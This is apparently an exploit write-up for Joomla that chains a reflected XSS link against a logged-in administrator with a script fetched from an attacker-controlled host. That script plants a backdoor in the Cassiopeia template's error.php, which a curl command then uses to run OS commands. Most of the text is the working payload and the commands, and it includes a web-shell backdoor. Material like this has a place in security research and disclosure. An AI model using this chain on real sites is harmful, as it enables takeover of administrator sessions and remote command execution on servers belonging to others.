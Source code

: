 # [RCE] Patch File

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. victim user (with administrative privileges) logs in

http://192.168.5.19/administrator

2. victim user clicks link

```
http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/patchFileJoomla.js></script>
```

3. execute OS command

```
curl "http://192.168.5.19/templates/cassiopeia/error.php?pass=test&cmd=id"
```

4. [optional] restore file

*Joomla ➔ System ➔ [Templates] Site Templates ➔ Cassiopeia Details and Files ➔ [tab] Editor ➔ /templlates/cassiopeia - error.php ➔ (remove backdoor) ➔ Save & Close*

## Screenshots

![Image](screenshots/Joomla_-_patch_file_-_1-1.png)
